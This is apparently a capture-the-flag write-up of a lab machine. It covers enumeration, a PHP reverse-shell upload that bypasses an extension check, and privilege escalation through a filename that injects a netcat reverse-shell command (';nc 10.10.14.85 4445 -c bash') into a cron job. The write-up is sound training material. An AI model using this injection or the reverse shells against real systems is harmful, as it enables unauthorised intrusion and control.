









I dont remember exactly when I popped this box, but I believe it was one of the first ones I did.

## 1. Enumeration

Alright, lets get down to it. First things first, nmap scan.

`nmap -Pn -sVC 10.10.10.146`

While that was running, I went ahead and started running both a dirb and nikto scan.

`dirb http://10.10.10.146 -r`

`nikto -h http://10.10.10.146`

## 2. Exploiting PHP

During the enum phase, dirb identified `backup.tar`. Downloading the tar file and unpacking it reveals the workings of `upload.php`. THe `upload.php` file only checks the extension of the file and if its under 60000k.

Since we know how `upload.php` works, we can now upload a reverse shell and bypass the checks by modifying the request via Burp. I used pentestmonkey's handy dandy reverse PHP shell.

  

Tada! Reverse shell

## 3. Privilege Escalation to Guly

Now that we have a shell, its time to enumerate some more. First things first, lets see if `www-data` can run anything as root via the `sudo -l` command.

Bummer :(  

Going to attempt to transfer `lse.sh` and then run it to see all the interesting things on this machine.

In the cron jobs section, we notice a job `check_attack`. Reading the contents of this cron job reveals that it checks the uploads folder in the `/var/www/html/uploads` directory. Running `ls -la` on that directory shows we dont have read/write access, but were going to try and touch a file in there anyway.

`touch test.txt`  

  

Walla! It worked!

Now that we know we can touch a file, lets look at the code in the `check_attack` cron a little more carefully to see if we can exploit this and escalate our privileges. After looking over the code, there is one line that stands out in particularly:

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

If we touch a file into the uploads directory with the following name below:

`;nc 10.10.14.85 4445 -c bash`

Everything after the `;` symbol will be treated as a completely separate command. So when the cron job runs, which is being ran under the user Guly, it will execute the nc command then open a shell back on our attacking machine. Alternatively you can touch a file with the name of `test.txt` and then use the `mv` command to change it to the name mentioned above.

Success!

  

We can find the `user.txt` in its normal spot.

## 4. Privilege Escalation to root

Now that we have a little higher privileges lets do some more enumeration. First things first, checking if we can run anything as root via `sudo`.

`sudo -l`

Looks like we can run the above command as root. Quick google search?

Googling `changename.sh`, we find that there is a vulnerability that leads us on the path to get root [Vulmon](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f).

Following the instructions about the vulnerability below, we get root. BOOM!

## 5. Conclusion

Overall this was a nice box. For me, the biggest hurdle was moving from www-data to the user Guly. After that it was smooth sailing.

Always remember, enumeration is your best friend! So is Google.
